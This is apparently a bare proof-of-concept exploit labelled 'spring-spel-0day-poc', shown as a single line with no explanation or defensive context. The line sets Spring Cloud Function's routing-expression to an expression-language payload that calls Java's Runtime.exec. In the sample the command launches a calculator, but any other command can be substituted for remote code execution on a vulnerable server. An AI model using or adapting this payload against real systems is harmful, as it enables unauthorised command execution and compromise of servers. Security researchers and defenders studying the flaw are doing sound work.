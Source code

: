 spring-spel-0day-poc
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")

